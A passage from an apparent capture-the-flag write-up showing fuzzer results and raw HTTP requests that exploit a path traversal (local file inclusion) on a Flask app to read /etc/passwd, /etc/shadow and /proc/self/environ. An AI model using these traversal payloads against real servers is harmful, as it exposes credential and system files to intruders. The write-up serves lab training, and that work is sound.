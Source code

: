 ```shell
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000021:   200        27 L     29 W       1172 Ch     "..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd"
000000022:   200        27 L     27 W       422 Ch      "..%2F..%2F..%2F%2F..%2F..%2Fetc/shadow"

Total time: 12.15351
Processed Requests: 920
Filtered Requests: 918
Requests/sec.: 75.69828
```
As we can see we get an LFI, now we can enumerate `proc` variables to determine the directory where this service is running and other stuff.  
We can enumerate environment:
```http
GET /uploads/..%2F..%2F..%2F%2F..%2F..%2Fproc/self/environ HTTP/1.1
Host: 10.10.11.164
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```
And we can see that the flask application has a `FLASK_DEBUG=1` flag.  
```http
HTTP/1.1 200 OK
Server: Werkzeug/2.1.2 Python/3.10.3
Date: Sun, 31 Jul 2022 19:15:34 GMT
Content-Disposition: inline; filename=environ
Content-Type: application/octet-stream
Content-Length: 0
Last-Modified: Sun, 31 Jul 2022 19:13:15 GMT
Cache-Control: no-cache
ETag: "1659294795.4441445-0-1059718893"
Date: Sun, 31 Jul 2022 19:15:34 GMT
Connection: close

PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin HOSTNAME=556408955fe5 LANG=C.UTF-8 GPG_KEY=A035C8C19219BA821ECEA86B64E628F8D684696D PYTHON_VERSION=3.10.3 PYTHON_PIP_VERSION=22.0.4 PYTHON_SETUPTOOLS_VERSION=58.1.0 PYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/38e54e5de07c66e875c11a1ebbdb938854625dd8/public/get-pip.py PYTHON_GET_PIP_SHA256=e235c437e5c7d7524fbce3880ca39b917a73dc565e0c813465b7a7a329bb279a PYTHONDONTWRITEBYTECODE=1 MODE=PRODUCTION FLASK_DEBUG=1 HOME=/root SUPERVISOR_ENABLED=1 SUPERVISOR_PROCESS_NAME=flask SUPERVISOR_GROUP_NAME=flask WERKZEUG_SERVER_FD=3 WERKZEUG_RUN_MAIN=true 
```
We can do the same with cmdline:  
```http
GET /uploads/..%2F..%2F..%2F%2F..%2F..%2Fproc/self/cmdline HTTP/1.1
Host: 10.10.11.164
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```
and get the following:  
```http
HTTP/1.1 200 OK
Server: Werkzeug/2.1.2 Python/3.10.3
Date: Tue, 02 Aug 2022 08:45:38 GMT
```